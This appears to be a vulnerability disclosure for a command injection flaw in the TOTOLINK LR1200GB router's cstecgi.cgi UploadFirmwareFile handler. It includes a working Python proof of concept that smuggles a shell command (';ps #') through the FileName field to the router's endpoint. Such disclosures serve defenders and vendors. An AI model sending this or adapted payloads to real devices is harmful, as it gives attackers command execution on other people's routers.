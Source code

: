 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `UploadFirmwareFile` handler function of  `cstecgi.cgi`. The value of the `FileName` parameter will be spliced ​​into the `mv %s %s` and be excuted by `doSystem` function, which allows an attacker to excute any command.

![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "FileName":";ps #",
    "topicurl":"UploadFirmwareFile",
    "token":"00000000000000000000000000000000"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)
